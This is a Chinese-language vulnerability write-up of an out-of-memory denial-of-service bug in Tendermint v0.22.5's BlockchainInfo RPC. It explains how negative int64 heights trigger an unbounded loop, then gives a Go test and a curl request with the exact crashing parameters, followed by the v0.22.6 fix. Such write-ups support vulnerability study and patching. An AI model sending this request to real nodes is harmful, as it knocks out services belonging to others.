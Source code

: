 # [DC-01] RPC请求因For-loop导致OOM

## 漏洞标签

`RPC` `For-loop` `OOM`

## 漏洞描述

这是一个来自 hackerone 提交的关于 RPC 的漏洞。恶意的 `BlockchainInfo` 请求可能会导致无限循环，最终导致内存耗尽导致崩溃。

## 漏洞分析

文件：`rpc/core/blocks.go`

漏洞代码: [链接](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)

```go
func BlockchainInfo(minHeight, maxHeight int64) (*ctypes.ResultBlockchainInfo, error) {
	if minHeight == 0 {
		minHeight = 1
	}

	if maxHeight == 0 {
		maxHeight = blockStore.Height()
	} else {
		maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)
	}

	// maximum 20 block metas
	const limit int64 = 20
	minHeight = cmn.MaxInt64(minHeight, maxHeight-limit)

	logger.Debug("BlockchainInfoHandler", "maxHeight", maxHeight, "minHeight", minHeight)

	if minHeight > maxHeight {
		return nil, fmt.Errorf("min height %d can't be greater than max height %d", minHeight, maxHeight)
	}

	blockMetas := []*types.BlockMeta{}
	for height := maxHeight; height >= minHeight; height-- { // for-loop
		blockMeta := blockStore.LoadBlockMeta(height)
		blockMetas = append(blockMetas, blockMeta)
	}

	return &ctypes.ResultBlockchainInfo{blockStore.Height(), blockMetas}, nil
}
```

攻击者可以发送如下参数值：

```go
minHeight = -9223372036854775808 (min int64)
maxHeight = -9223372036854775788 (minHeight + 20)
```

注意到`maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)`，其中 `MinInt64` 为从两个参数选择较小的，所以我们使用负值的 `maxHeight`。

注意循环语句 `for height := maxHeight; height >= minHeight; height-- {}`，代码中的 for-loop 会可以无限次循环执行。当达到循环次数 9223372036854775807 (max int64) ，还能继续进行。每次无法查找块时，它会向 `blockMetas` 向量追加一个nil。 最终，这将增长到足以耗尽服务器上的内存。

## 复现或测试步骤

此处可以有两种复现方式。

### 使用 go test 脚本测试

```golang
// XuanMao : Bug test
func TestBlockchainInfoForloop(t *testing.T) {
	config := cfg.ResetTestRoot("node_node_test")
	defer os.RemoveAll(config.RootDir)

	// create & start node
	n, err := DefaultNewNode(config, log.TestingLogger())
	require.NoError(t, err)
	err = n.Start()
    require.NoError(t, err)
    
	c := struct {
		min, max     int64
	}{
	-9223372036854775808, -9223372036854775788,
	}
	BlockchainInfo(c.min,c.max)
}
```

![1](./pic/1.png)

可以看到CPU和内存飙升，几分钟后程序 crash.

### 启动节点复现

开启一个节点，并向节点接口(`e.g. 127.0.0.1:26657`)，发送以下请求：

```bash
curl 'http:///blockchain?minHeight=-9223372036854775808&maxHeight=-9223372036854775788'
```

可以看到CPU和内存飙升，几分钟后程序 crash.

## 修复

本漏洞相关修复见 : [Fix](https://github.com/tendermint/tendermint/commit/8dc655dad25b0b04f271cb66ba73fd504db3195d)

本漏洞在版本 v0.22.6 中修复。

修复方法：

增加 `filterMinMax` 对输入的参数值进行检查处理。

1. 检查参数值不小于0；
2. `min` 小于 `max`；
3. 当 `min` 为 0 时，设置为 1 ，当 `max` 为 0 ，设置为最后区块高度。

```golang
// error if either min or max are negative or min < max
// if 0, use 1 for min, latest block height for max
// enforce limit.
// error if min > max
func filterMinMax(height, min, max, limit int64) (int64, int64, error) {
	// filter negatives
	if min < 0 || max < 0 {
		return min, max, fmt.Errorf("heights must be non-negative")
	}

	// adjust for default values
	if min == 0 {
		min = 1
	}
	if max == 0 {
		max = height
	}

	// limit max to the height
	max = cmn.MinInt64(height, max)

	// limit min to within `limit` of max
	// so the total number of blocks returned will be `limit`
	min = cmn.MaxInt64(min, max-limit+1)

	if min > max {
		return min, max, fmt.Errorf("min height %d can't be greater than max height %d", min, max)
	}
	return min, max, nil
}
```

## 相关资料

本漏洞相关 `Issue` 见 : [Issue](https://github.com/tendermint/tendermint/issues/2049)

